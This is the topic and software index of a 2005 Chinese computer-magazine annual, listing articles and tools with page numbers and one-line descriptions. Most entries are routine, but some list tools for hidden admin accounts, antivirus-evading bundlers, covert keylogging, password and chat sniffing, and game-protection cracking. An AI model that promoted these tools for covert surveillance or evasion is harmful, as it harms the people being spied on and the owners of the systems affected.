### ◆ 系统应用
- 115 软件超级模仿秀！系统潜能大挖掘

### ◆ 系统优化
- 88 捍卫系统和平打败吃掉硬盘空间的怪物
- 89 臃肿时代！我们倡导右键菜单瘦身主义
- 100 畅行无阻，给程序一张无敌通行证
- 120 我不信邪！没有服务Windows照样能运行——史上最强优化，打造无服务版Windows
- 120 多种武器助你驯服小企鹅
- 236 菜鸟瞬间变“Windows优化大师”

### ◆ 系统知识
- 118 NTLDR，揭开Windows XP启动的秘密
- 125 秀出系统的挡箭牌—“运行身份”技术
- 126 系统目录中的“百慕大三角”

### ◆ 下载
- 97 告别“烂尾工程”——多下载工具续传技术
- 132 给系统壮胆，从此不登录也敢下载
- 225 与BT并驾齐驱 看电骡(eMule)再战江湖
- 246 突破万难 无所不“下”
- 259 “迅雷”不及掩耳，看我极速下载
- 434 下载的一个页面为何没有包含图片
- 434 解决大于4GB文件的下载问题
- 436 如何观看没下载完整的影片
- 436 电骡下载时提示硬盘空间不足

### ◆ 显卡
- 342 从AGP到PCIE，显卡接口大变化
- 358 PCI Express显卡＝吃电怪兽？
- 365 SLI我也行—图解GeFore6200改造
- 366 显卡小菜的SLI攻略
- 368 我有我需要，热门显卡选购路路通
- 372 nVIDIA vs ATI 跨世纪的显卡之王宿命对决
- 377 TurboCache & HyperMemory延续性价比神话

## ◇ 显示器
- 431 显示器为什么没有显示
- 432 为什么CRT显示器抖动

## ◇ 卸载
- 423 卸载百度搜霸工具条

## ◇ 虚拟机
- 197 彻底玩转微软虚拟机Virtual PC

## [Y]

## ◇ 移动硬盘
- 98 移动硬盘消化不良?我来摆平它
- 379 移动硬盘选购杂谈

## ◇ 音频文件转换
- 142 无CUE文件也能轻松转换APE文件

## ◇ 音箱
- 429 为何5.1音箱不能输出5.1声效

## ◇ 硬件故障
- 429 黑屏后只能用开关强行关机
- 429 Windows 98SE/ME不支持C-Media CMI9880 CODEC
- 429 一开机就掉电
- 430 机箱里的“嗞嗞”声
- 430 相机镜头不能复位
- 430 电脑撞邪了?
- 430 进入游戏后为什么总有out of range
- 431 NBA2005运行不流畅
- 431 为什么经常重启
- 432 无法正常关机
- 432 计算机无故断电
- 432 计算机蓝屏问题的解决
- 433 机箱警报所为何因
- 433 计算机长时间关机难以启动
- 434 开机后有警报音

## ◇ 硬件技术
- 362 随身的数据仓库——OTG技术全接触
- 368 DDR2 能为镭9550再续辉煌
- 372 让主板更聪明 AI Life技术初探
- 374 团结、统一！——让TV 族与PC 族全面“通婚”
- 392 一统天下! SATA2.5技术前瞻
- 400 AMD vs Intel双核心CPU技术

## ◇ 硬件知识
- 49 融合现实与理想的桌面时代
- 69 升级在秋天
- 80 硬件领域二十大经典尴尬
- 429 关于蛇形走线的疑惑
- 430 计算机必须使用参数稳压器
- 431 什么是DVI接口
- 432 如何安装SATA驱动
- 432 如何检测多处理器
- 434 不同核心的区别

## ◇ 硬盘
- 151 系统无法启动! 如何抢救硬盘数据
- 341 硬派讲堂之玩转硬盘
- 357 数据的金刚罩——硬盘安全技术全接触
- 358 硬盘“失踪”，谁之过？
- 359 硬盘是完全封闭的吗？
- 365 装机、升级，硬盘买什么？
- 370 硬盘应该怎么用？要性能，还是要寿命？
- 378 硬盘内部世界漫游记
- 393 让硬盘静音运行无需如此麻烦
- 429 如何找回丢失的硬盘空间
- 429 如何设定用SATA硬盘开机
- 430 硬盘无法识别
- 432 硬盘重新分区后NEC E2000的SmartRestore功能失效
- 432 硬盘故障导致系统频繁死机
- 434 7.2MB是否为硬盘的着陆区

## ◇ 硬盘分区
- 94 找回被破坏的隐藏分区

## ◇ 用户
- 109 修改系统用户名的误区
- 119 三种方法，让程序拥有“特工”身份
- 425 恢复“本地用户和组”
- 438 限制域用户只登录某一台电脑

## ◇ 优化
- 195 免费全能助手，Windows优化不愁

## ◇ 邮件
- 158 一眼挑出老板的邮件
- 167 反垃圾邮件的常用武器是什么
- 195 以一当十，邮件合并建奇功
- 258 给朋友发一封“魔法信”
- 436 无法打开邮件中的附件怎么办
- 436 E-mail中的“>>>>>”怎么删除
- 437 POPO总是提示新邮件
- 438 取消Hotmail自动将邮件设置为垃圾邮件
- 438 取消卡巴斯基邮件监控
- 438 OE无法收取、发送Gmail邮件

## ◇ 邮箱
- 133 别闲着 GB邮箱给我变网络硬盘
- 146 让所有邮箱都能即时“通信”
- 311 “大块头”要有“大智慧”——玩转网络硬盘和大容量邮箱
- 435 如何才能注销免费邮箱的账户
- 438 申请UC邮箱别名

## ◇ 游戏
- 107 让Windows进入游戏模式
- 141 我有我主张 我做我的RPG游戏
- 154 破解StarForce3 不拔光驱也能玩加密游戏
- 172 为所有游戏添加窗口模式
- 178 RPG Maker XP游戏制作高手进补篇
- 179 打游戏机我要“液晶电视”

## ◇ 右击
- 428 右击桌面空白处发生错误

## ◇ 右键
- 132 超级右键工具让目录尽情跳!

## ◇ 域名
- 17 抢注.cn域名 就能一夜暴富?

## ◇ 远程管理
- 434 不同操作系统间的远程管理问题

## ◇ 远程控制
- 96 朋友有难 “远程桌面”替你跑腿

## ◇ 账户
- 93 给账户起个“小名”
- ——影子账户全面解析
- 117 我有“特权”我怕谁
- ——巧用服务添加管理员账户

## [Z]

## ◇ 正版软件
- 34 500多元买正版 COEM版Windows 你了解多少?

## ◇ 志愿者
- 39 “蒲公英”在爱心下成长

## ◇ 主板
- 350 教你看懂主板宣传单
- 369 解决部分nForce2主板不能上网问题
- 387 攒机指南:什么样的主板不能买?
- 390 漫游主板世界

## ◇ 注册表
- 108 从零讲起 彻底走出注册表迷雾
- 221 快速修复注册表
- 257 建就建出“花”来

## ◇ 装机
- 345 低端装机的朋友看过来

## ◇ 资源管理器
- 138 资源管理器里开“天窗”

## ◇ 字体
- 189 “宋”别! 让英文软件不再仅支持“宋体”

## ◇ 自动
- 433 计算机自动关闭的原因

## ◇ 自动登录
- 427 解决自动登录系统的问题

## ◇ 自启动
- 217 让“播放”不再自动
- 422 解决迅雷总是开机自启动的问题
- 427 光盘无法自动播放
- 428 “我的文档”开机自动打开
- 432 计算机自动重新启动的原因

## ◇ 组策略
- 116 有勇有谋，智斗组策略三大“顽疾”
- 139 冲破枷锁! 解放被组策略锁死的系统

### 电脑爱好者合订本
#### 2005年(下)软件检索

| 编号 | 页码 | 软件名称 | 软件说明 | 文章标题 |
|------|------|----------|----------|----------|
| 1 | 88 | WinDirStat 1.1.1 | 找出磁盘空间占用“大户” | 捍卫系统和平 打败吃掉硬盘空间的怪物 |
| 2 | 90 | FOFF Protection 1.0 | 限制程序运行 | 电脑，让我放心地离开你 |
| 3 | 89 | Mmm FREE 2.0 | 方便地精简右键菜单 | 瞳孔时代！我们倡导右键菜单瘦身主义 |
| 4 | 141 | RPG Maker XP 1.01修正第二版 | 制作RPG游戏的小工具 | 我有我主张 我做我的RPG游戏 |
| 5 | 142 | MainConcept MPEG Encoder 1.42 | 转换、压缩MPEG文件 | 多快好省 轻松打造KVCD |
| 6 | 146 | PopTray 3.1 | 监视POP3邮件，收到邮件会自动提示 | 让所有邮箱都能即时“通信” |
| 7 | 270 | MSN Content Installer 1.0 | 下载MSN Messenger的收费内容 | 新软物语12期 |
| 8 | 270 | HideAdmin N/A | 添加隐藏账号 | 新软物语12期 |
| 9 | 270 | Guest删除大师 1.5 | 删除系统内置账号 | 新软物语12期 |
| 10 | 270 | CSMate 1.7 | 在CS中输入中文的小工具 | 新软物语12期 |
| 11 | 271 | Excel多排表工具 4.0 | 打印多列表的好工具 | 新软物语12期 |
| 12 | 271 | Picture Baby 1.0 | 制作Ctrl+A图片的小工具 | 新软物语12期 |
| 13 | 307 | QQ第六感 V1.8 | 探测同一局域网上的计算机中登录的QQ号码 | 认识你真好—QQ泡MM的奇招妙招 |
| 14 | 307 | LumaQQ 2004 For Windows(带JRE) | 查看QQ查看好友是否隐身 | 认识你真好—QQ泡MM的奇招妙招 |
| 15 | 307 | CamSplitter 1.6 | 多种软件同时视频 | 认识你真好—QQ泡MM的奇招妙招 |
| 16 | 308 | DNKA 3.0 | 让GDS能够搜索远程计算机上的文件 | 长脚的Google爬上了电脑桌 |
| 17 | 326 | FlashFXP 3.1.14 build 1078 RC1简体版 | 常用的FTP下载工具 | 文件装甲运输车—玩转新时代FTP |
| 18 | 326 | 影音传送带 1.94a简体中文版 | 多线程下载工具 | 文件装甲运输车—玩转新时代FTP |
| 19 | 326 | TYPSoft FTP Server 0.99.2汉化版 | 免费易用架设FTP服务器 | 文件装甲运输车—玩转新时代FTP |
| 20 | 151 | Emergency Boot CD-ROM 0.6.1 | 制作引导修复光盘 | 系统无法启动！如何抢救硬盘数据 |
| 21 | 151 | HDDREG | 修复物理坏道 | 系统无法启动！如何抢救硬盘数据 |
| 22 | 154 | StarFuck | 破解StarForce3 | 破解StarForce3 不拔光驱也能玩加密游戏 |
| 23 | 271 | Windows XP Setup Simulator 1.0 | 模拟Windows XP安装 | 新软物语13期 |
| 24 | 271 | LAST CHANCE 1.03 | 在关机前运行软件 | 新软物语13期 |
| 25 | 271 | Fundelete 2.02 | 轻松恢复数据 | 新软物语13期 |
| 26 | 271 | AccessToExcel 1.3 | 将Access表格转换为Excel | 新软物语13期 |
| 27 | 271 | 博乐连连看背单词 0.11 | 有背单词功能的连连看游戏 | 新软物语13期 |
| 28 | 271 | ExtConvert 1.01 | 批量修改扩展名 | 新软物语13期 |
| 29 | 153 | 网络妈妈 4.68 | 网络监护工具 | 网络看护还是“妈妈”好 |
| 30 | 309 | BNBT 发布页（比特精灵强化版） | BT种子发布页制作工具 | 1分钟！快速搭建BT发布站点 |
| 31 | 159 | BootXP 2.50 RC1汉化版 | 修改系统引导画面 | 图片时代 另类方法Show出你的照片 |
| 32 | 160 | 天敏贴纸相 2.0增强版 | 免费拍摄大头贴的软件 | 免费“贴纸照” 今天就来拍 |
| 33 | 160 | LabelShopLE 1.22 | 批量打印的小工具 | 批量打印我用LabelShopLE |
| 34 | 271 | 比特铃手机漫画书制作工具(JPicBook) 1.01 | 制作手机上观看的Java漫画书 | 新软物语14期 |
| 35 | 271 | 文档批量提取文本 4.0 | 将多种格式的文档转换为文本文件 | 新软物语14期 |
| 36 | 272 | WordPipe 4.6.2 | 批量替换DOC文件中的内容 | 新软物语14期 |
| 37 | 272 | PPLive 1.06 | 用BT技术实现的电视软件 | 新软物语14期 |
| 38 | 272 | ECQ超级进程王 5.2 | 管理进程的小工具 | 新软物语14期 |
| 39 | 313 | Tom-Skype 1.3 | 音频聊天软件 | 网络时代 我用视频追杀丘比特 |
| 40 | 313 | E话通 v3.80 0318.008 | 功能强大的视频聊天软件 | 网络时代 我用视频追杀丘比特 |
| 41 | 102 | 风漫 1.702 | 漫画制作软件 | 五分钟成为漫画家 |
| 42 | 169 | FillCD 2.0 | 刻录文件时，自动计算最佳的文件组合方式 | 批量刻录也省心 |
| 43 | 170 | 网博士 2.00 Beta9(Build126) | 很像“网文快捕”的免费资料收集软件 | 今天我出“书”了 |
| 44 | 171 | Ashampoo Photo Commander 3.5 | ACDSee的代替品 | Ashampoo Photo Commander彻底让ACDSee下岗！ |
| 45 | 172 | D3DWindower 1.88汉化版 | 让DirectX模式游戏运行在窗口下 | 为所有游戏添加窗口模式 |
| 46 | 272 | 雪狐提醒簿 3.14 | 漂亮强大的提醒簿 | 新软物语15期 |
| 47 | 272 | Google Earth 3.0.0336 Beta | 俯瞰世界 | 新软物语15期 |
| 48 | 272 | 注册表监视器 1.2测试版 | 监视注册表及文件夹不被修改 | 新软物语15期 |
| 49 | 272 | 佳好U盘锁 050628 | 防止别人在你电脑上用闪存盘的小工具 | 新软物语15期 |
| 50 | 272 | Access数据库压缩机 1.4 | 压缩Access数据库 | 新软物语15期 |
| 51 | 172 | System Repair Engineer 1.0.0.262 | 修复系统的小工具 | System Repair Engineer系统修复的瑞士军刀 |
| 52 | 173 | MyMPC·暴风影音 5.07RC3 | 著名的影音播放软件，支持的格式众多 | MyMPC, 刮起影音播放的风暴 |
| 53 | 316 | Upiea 1.48 | IE插件清理程序 | 小心呀！“流氓”进村了 |
| 54 | 331 | On2Share | Windows Media Player的UPnP插件 | “UPnP”让全世界轻松牵手 |
| 55 | 331 | TwonkyVision MediaServer | 支持UPnP的流媒体服务器 | “UPnP”让全世界轻松牵手 |
| 56 | 331 | Nero Digital | Nero版本的媒体服务器 | “UPnP”让全世界轻松牵手 |
| 57 | 104 | Edifier EasyVOL 1.0 | 用热键控制音量 | 不装软件，也玩专业录音 |
| 58 | 179 | DScaler 4.1.12 | 用显示器看电视、玩游戏机好工具 | 打游戏机我要“液晶电视” |
| 59 | 179 | SoftCam 1.52 | 虚拟摄像头软件 | 巧用虚拟摄像头 视频聊天也要有特效 |
| 60 | 273 | MSN颜色修改器 2.1 | 修改MSN Messenger文字颜色 | 新软物语16期 |
| 61 | 273 | Image Grabber N / A | 截取缩略图的软件 | 新软物语16期 |
| 62 | 273 | 乱码察看器 2.60 | 察看乱码的工具 | 新软物语16期 |
| 63 | 273 | PASSOLO 5.0 | 极佳的本地化工具 | 新软物语16期 |
| 64 | 273 | 永不查杀的捆绑机 1.0 | 制作不会被查杀的捆绑软件 | 新软物语16期 |
| 65 | 320 | SuperScan 4.0汉化版 | 查看对方机器开放的端口 | 碟中谍3! 网络上演不可能的任务 |
| 66 | 320 | Perfect Keylogger V1.63 | 悄悄记录网友的一切行为 | 碟中谍3! 网络上演不可能的任务 |
| 67 | 320 | 艾菲网页侦探 3.5 | 查看局域网内所有人正在浏览的网页 | 碟中谍3! 网络上演不可能的任务 |
| 68 | 320 | MSN Sniffer 1.2 | 监控局域网中的MSN Messenger聊天记录 | 碟中谍3! 网络上演不可能的任务 |
| 69 | 321 | Resource Hacker 3.4.0汉化版 | 可以修改可执行文件的反汇编软件 | 给MSN Messenger 7的联系人做美容 |
| 70 | 323 | Tor 0.1.1.2-alpha | 网络隐身工具 | Tor网络的“独行忍者” |
| 71 | 105 | Windows服务管理专家 1.02 | 服务管理的好帮手 | 亦真亦假的Svchost.exe |
| 72 | 106 | Mouse-Master 1.5 | 自动调节鼠标灵敏度 | 小编们的“聪明”电脑 |
| 73 | 186 | USBoot 1.67 | 制作闪存盘引导的工具 | 揭秘改造新招数 我的闪存盘大不同 |
| 74 | 186 | 多功能DOS启动U盘 1.0 | 将闪存盘变为维护盘 | 揭秘改造新招数 我的闪存盘大不同 |
| 75 | 186 | USB Notebook 3.0 | 将闪存盘变为移动公文包 | 揭秘改造新招数 我的闪存盘大不同 |
| 76 | 186 | PortFree Production Program 3.27 | 修改闪存盘，对闪存盘进行个性化 | 揭秘改造新招数 我的闪存盘大不同 |
| 77 | 187 | nEO iMAGING(光影魔术手) 0.16 | 自动处理、加工照片的软件 | 光影魔术手 菜鸟的Photoshop |
| 78 | 189 | Heroglyph 2.0.12 | 专业的字幕制作软件 | “宋”别！让英文软件不再仅支持“宋体” |
| 79 | 189 | Font Creator Program 4.1.1.159.63 | 专业的字体制作软件 | “宋”别！让英文软件不再仅支持“宋体” |
| 80 | 273 | nVHardPage SE 3.1 | 不进注册表调整nVIDIA显卡 | 新软物语17期 |
| 81 | 273 | U盘检测器 5.0 | 检测你的USB设备连接速度 | 新软物语17期 |
| 82 | 273 | 骗子克星 1.01 | 手机、IP、域名等信息的查询 | 新软物语17期 |
| 83 | 273 | TIDY START MENU 2.3 | 为“开始”菜单分类 | 新软物语17期 |
| 84 | 273 | Winhip 2.0 | 不改变图片文件尺寸，将文件隐藏在照片里 | 新软物语17期 |
| 85 | 190 | 完美卸载 V2005 | 不错的系统维护、优化工具套件 | 系统轻松大减负，完美卸载好伴侣 |
| 86 | 194 | ULTRA 1.25.2229.5 | 一款不错的视频制作软件 | 搭建自己的虚拟演播室 |
| 87 | 324 | Zx Sniffer 4.22 | 获得FTP客户端登录密码的工具 | 碟中谍3之007重现江湖 |
| 88 | 324 | EtherDetect Packet Sniffer 1.2 | 截获网络邻居中电脑发送的信息 | 碟中谍3之007重现江湖 |
| 89 | 324 | Advatrack Pro 1.2 | 帮你找回丢失的笔记本电脑 | 碟中谍3之007重现江湖 |
| 90 | 325 | Skype 1.3 | 流行的网络电话 | 免费口语外教请回家 |
| 91 | 326 | EnableGoogleCache | Maxthon浏览器使用的网页快照增强工具 | 在搜索中“捕风捉影” |
| 92 | 116 | Process Tamer 2.00.15 | 自动调整进程优先级 | 没有硬的来软的 免费升级超线程 |
| 93 | 195 | 全能助手Windows优化王 2.31 | 优化、修改系统的小工具 | 免费全能助手，Windows优化不愁 |
| 94 | 197 | Virtual PC for Windows 5.2 | 微软出品的虚拟机软件 | 彻底玩转微软虚拟机Virtual PC |
| 95 | 274 | Net Tools 3.1 | 网管工具合集 | 新软物语18期 |
| 96 | 274 | SWF Text 1.1 | 轻松制作出Flash文字 | 新软物语18期 |
| 97 | 274 | ez3GP 1.1 | 将常用媒体格式转换为3GP格式 | 新软物语18期 |
| 98 | 274 | ezJad 1.1 | 通过JAR生成JAD | 新软物语18期 |
| 99 | 274 | 火凤凰电影终极收藏软件 1.72 | 管理碟片的好工具 | 新软物语18期 |
| 100 | 334 | Any Speed 1.4 | 根据网速来操作软件 | 网络加速“七剑”下江山 |
| 101 | 334 | cFosSpeed 2.10 | 网络加速软件 | 网络加速“七剑”下江山 |
| 102 | 334 | NetSpeeder 3.56 | 网络优化软件 | 网络加速“七剑”下江山 |
| 103 | 334 | ProxyThorn 1.8 | 代理服务器搜索和验证工具 | 网络加速“七剑”下江山 |
| 104 | 334 | Dipstick 3.0 | 自动分析出下载最快的链接 | 网络加速“七剑”下江山 |
| 105 | 334 | LoadScout 2.0 | 大型文件看清楚再下 | 网络加速“七剑”下江山 |
| 106 | 334 | BitComet Accelerator 1.0 | BitComet加速工具 | 网络加速“七剑”下江山 |
| 107 | 119 | Pack Crystal XP 3.0 RC1 | 非常漂亮的XP风格 | 惊艳！XP原来可以如此美丽 |
| 108 | 206 | QQLive 1.0 beta02 | QQ网络电视 | 以BT的名义看电视——主流P2P网络电视使用手记 |
| 109 | 206 | PPLive 1.0.7.4 | 非常不错的P2P网络电视 | 以BT的名义看电视——主流P2P网络电视使用手记 |
| 110 | 206 | 沸点网络电视 20050728 | 运行稳定的网络电视 | 以BT的名义看电视——主流P2P网络电视使用手记 |
| 111 | 206 | CC IPTV 2.0.0.0904 | 可以自建频道的网络电视 | 以BT的名义看电视——主流P2P网络电视使用手记 |
| 112 | 206 | ppStream 1.0.0.96 | 具有定时关机功能的网络电视 | 以BT的名义看电视——主流P2P网络电视使用手记 |
| 113 | 209 | MagicGet 0.24 | 快速下载新浪、搜狐、晋江文学三个网站中的电子书 | 巧取豪夺 网站电子书 |
| 114 | 207 | Speed Gear 5.0 | 类似“变速齿轮”的加速软件 | 让DC模拟器在低配置电脑上飞起来 |
| 115 | 274 | KeyTick 1.0 | 让键盘发出声音的软件 | 新软物语19期 |
| 116 | 274 | All Media Fixer Pro 5.1汉化版 | 修改多媒体文件 | 新软物语19期 |
| 117 | 274 | dup2 2.09 | 专业的制作补丁软件 | 新软物语19期 |
| 118 | 274 | Unstoppable Copier 1.99 | 复制有损光盘上的文件 | 新软物语19期 |
| 119 | 275 | 文件增量备份工具 0.11 | 支持网络的增量备份工具 | 新软物语19期 |
| 120 | 338 | 粤语发音查询软件-粤音 1.1 | 学习粤语发音 | 方言，不仅仅是地方话 |
| 121 | 124 | Foxie 1.1.0 | 让IE免费变身Firefox | 让IE免费变身Firefox |
| 122 | 217 | SopCast 0.3.2 | 可以边看边录的P2P网络电视 | 边看边录，还能放的网络电视 |## 软件检索

| 序号 | 页码 | 软件名称 | 软件说明 | 文章标题 |
| :--- | :--- | :--- | :--- | :--- |
| 123 | 217 | Autoplay Repair 1.1 | 自动打开/关闭光盘及移动设置的自动播放功能 | 让 “播放” 不再自动 |
| 124 | 219 | Pocket Controller Enterprise 4.12 | 用电脑控制手机的软件 | 当 “聪明” 手机遇到 “聪明” 电脑…… |
| 125 | 219 | Switch Off 2.3.0.1 | 远程关机软件 | 当 “聪明” 手机遇到 “聪明” 电脑…… |
| 126 | 219 | Jeyo Remote 2.0 | 用你的手机遥控你的电脑 | 当 “聪明” 手机遇到 “聪明” 电脑…… |
| 127 | 220 | m2cdmgui 1.6 | 制作 Mode 2 Form 2 的 ISO 文件 | 另类超刻 强突700MB限制 |
| 128 | 220 | XCD File Extractor | 从 Mode 2 Form 2 光盘中提取文件 | 另类超刻 强突700MB限制 |
| 129 | 218 | SizeMe 1.3.2 | 为你提供数据最佳组合的刻录方案 | 如何刻录? 听SizeMe |
| 130 | 222 | MSN7 Task Monitor 1.2 | 让MSN显示你正在使用的程序 | 我在做什么,你知道吗? ——为MSN Messenger添加监视功能 |
| 131 | 275 | BatteryMon 2.0 Build 1006 | 检测电池容量大小 | 新软物语20期 |
| 132 | 275 | Slawdog Smart Shutdown 2005经典版 | 智能关机软件 | 新软物语20期 |
| 133 | 275 | Temptation Blocker 1.99 | 禁止指定的程序运行 | 新软物语20期 |
| 134 | 275 | MP3分类管理器 1.01 | 分类管理你的MP3 | 新软物语20期 |
| 135 | 125 | DropMyRights 1.0 | 降低权限安全运行程序 | 秀出系统的挡箭牌 — “运行身份” 技术 |
| 136 | 126 | Cookie Editor 1.9.1.469 | Cookie编辑工具 | 系统目录中的 “百慕大三角” |
| 137 | 129 | Google Earth 3.0.0616 Beta | 让你查看地球的第一个角落 | 我去重庆看美女——网络帮你熟悉新环境 |
| 138 | 128 | Xcacls 1.00.0.1 | 增强型命令行权限设置工具 | 安全和便捷两不误，无形的权限之锁 |
| 139 | 128 | Xplorer 0.4.0.99 | 多标签文件管理工具 | 单挑还是群殴? 与TC过招 |
| 140 | 128 | ExplorerXP 1.07a | 可以建立文件夹组的文件管理工具 | 单挑还是群殴? 与TC过招 |
| 141 | 128 | xplorer2 Lite 1.3.0.2简装版 | 和TC功能相当的免费文件管理工具 | 单挑还是群殴? 与TC过招 |
| 142 | 131 | uTorrent 1.1.6 | 只有96KB的全能高速BT下载软件 | 小块头也敢有大智慧！96KB的高速BT客户端 |
| 143 | 130 | BackRex Expert Backup 2.5 | 专业的系统设置备份工具 | 拒绝重复劳动! 把设置打包带走 |
| 144 | 132 | Folder Pilot 1.0 | 超强的文件夹快速跳转工具 | 超级右键工具让目录尽情跳! |
| 145 | 231 | 老板键 V5.0 | 为任意软件添加老板键 | 小心！老板来了！——软件中的 “老板键” |
| 146 | 275 | RarFS 0.8 | 像访问文件夹一样访问RAR文件 | 新软物语21期 |
| 147 | 275 | Google网页翻译工具 Final版 | 全文翻译软件 | 新软物语21期 |
| 148 | 275 | FlashMe 1.0 Beta | 通过摄像头拍摄为压缩视频文件 | 新软物语21期 |
| 149 | 276 | Easy GIF2SWF Converter 1.0.114 | 将GIF转换为SWF文件 | 新软物语21期 |
| 150 | 276 | Proxy Switcher Pro 3.3.3506 | 非常不错的代理软件 | 新软物语21期 |
| 151 | 235 | ParticleIllusion 3.01a | 视频特效制作软件 | 风色幻想TV秀——ParticleIllusion特效尝试 |
| 152 | 242 | AddPreview 1.0 | 浏览器增强插件，可预览链接 | 链接预览专家AddPreview |
| 153 | 242 | Blogger for Word 1.0 | Word插件，可直接在Word中写Blog | Word “改装” Blog 发布机 |
| 154 | 133 | MailMagic 1.3 | 把大邮箱变网络硬盘 | 别闲着 GB邮箱给我变网络硬盘 |
| 155 | 135 | Zoundry Blog Writer 0.9.133 | 让你离线写博客 | Zoundry Blog Writer让你离线写博客 |
| 156 | 244 | AutoPlay Media Studio 6.0汉化版 | 制作专业的光盘自启动程序 | 谁说自造软件难？——轻松打造个性工具栏 |
| 157 | 245 | FilmShrink 0.3.3.129 Beta | 将DVD转为RMVB格式 | 揭秘！BT电影来源完全揭秘 ——快速将DVD转成RMVB格式 |
| 158 | 246 | Project URL Snooper 1.1 Beta 1汉化版 | 嗅探加密的视频、音频下载地址 | 突破万难 无所不“下” |
| 159 | 245 | Picasa 2.1 | 图片搜索管理软件 | 有了 Picasa，图片管理超轻松 |
| 160 | 276 | TrueURL 0.10 | 得到真实的下载地址 | 新软物语22期 |
| 161 | 276 | 个人文件夹备份 | 定时备份Outlook个人文件夹 | 新软物语22期 |
| 162 | 276 | QQ锁 2.0 | 让指定的QQ无法上网 | 新软物语22期 |
| 163 | 276 | Q宠保姆 2.0 Build 1022 | 帮你养Q宠 | 新软物语22期 |
| 164 | 276 | MangaMeeya 6.85 | 功能超强的漫画工具 | 新软物语22期 |
| 165 | 247 | ClamWin | 免费开源的杀毒软件 | 开源免费的杀毒软件ClamWin |
| 166 | 136 | System Repair Engineer 1.1.0.269 | 系统修复工具 | 双击背后的秘密——文件关联 |
| 167 | 136 | File Association Manager 2.0汉化版 | 轻松修改文件关联 | 双击背后的秘密——文件关联 |
| 168 | 138 | Folder Box 1.2 | 让资源管理器支持多窗口 | 资源管理器里开 “天窗” |
| 169 | 257 | MakeReadme | 通过右键建立指定文件名的文本文件 | 建就建出 “花” 样 |
| 170 | 256 | cFosSpeed 2.02 | ADSL加速驱动程序 | 和BT时无法打开网页故障说 “拜拜” |
| 171 | 258 | AudioJPEG Player and Recorder 1.0.1.24 | 为JPG文件添加音频 | 爱你在心口难开 JPG帮你解难题 |
| 172 | 258 | 绣身文件生成器 1.1 | 将秘密隐藏到文件中 | 爱你在心口难开 JPG帮你解难题 |
| 173 | 276 | Xentient Thumbnails 1.02 | 将图片内容变为图标 | 新软物语23期 |
| 174 | 276 | APO USB Autorun 1.0 | 让系统支持闪存盘自动运行 | 新软物语23期 |
| 175 | 277 | BooX Viewer 1.0 | 免费绿色的PDG阅读器 | 新软物语23期 |
| 176 | 277 | ViViPlay 1.0 | 穿透内网功能强的P2P网络电视 | 新软物语23期 |
| 177 | 277 | SWITCH WINDOW 1.0.1 | 快速准确的找到任务窗口 | 新软物语23期 |
| 178 | 261 | Paint.NET 2.5 Beta 5 | 小巧但功能强大的绘图软件 | 偷窥下一代的 Windows “画笔” |
| 179 | 263 | 123 Flash Menu 1.6.3.200 | 制作Flash风格的菜单 | 3步制作超酷Flash导航菜单 |
| 180 | 270 | Mp3 Autorun 3.4.55 | MP3播放器，可制作自动播放光盘 | 全自动播放MP3光盘就这么简单 |
| 181 | 266 | MSN Messenger 8.0测试版 | 最新的MSN Messenger | 终于有了群功能！MSN 8.0就要来啦！ |
| 182 | 267 | SupervisionCam 3.05.14 | 通过摄像头自动监控的软件 | 谍影重重3之摄像头监控 |